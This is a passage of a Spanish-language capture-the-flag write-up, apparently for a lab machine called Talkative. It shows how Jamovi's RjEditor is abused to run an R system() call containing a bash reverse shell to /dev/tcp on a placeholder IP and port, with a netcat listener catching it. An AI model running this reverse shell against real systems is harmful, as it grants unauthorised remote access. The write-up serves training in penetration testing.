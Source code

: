 

Si buscamos en la documentación de Jamovi, nos encontramos con un apartado que menciona la ejecución de [**comandos**](https://www.jamovi.org/about-arbitrary-code.html) donde utilizamos RjEditor para efectuar esta tarea, ya que el lenguaje principal de Jamovi es R tenemos que configurar nuestra shell reversa en este lenguaje, aquí les dejo [**documentación**](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/system) donde indica el uso de la función "system" para ejecutar comandos de sistema en el lenguaje R.


Utilizando la cheatsheet de [**PentestMonkey**](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) y la documentación de R anteriormente mencionada, el comando a utilizar sería el siguiente:


```terminal
system("bash -c 'bash -i >& /dev/tcp/TUIP/TUPUERTO 0>&1'")
```


Ingresamos el comando dentro del RjEditor y ejecutamos(CTRL+SHIFT+ENTER):


![1](/assets/img/sample/Talkative/11.png)


Ahora si nos vamos a netcat, deberíamos de haber establecido la conexión de manera exitosa:


![1](/assets/img/sample/Talkative/12.png)


## Escalando Privilegios
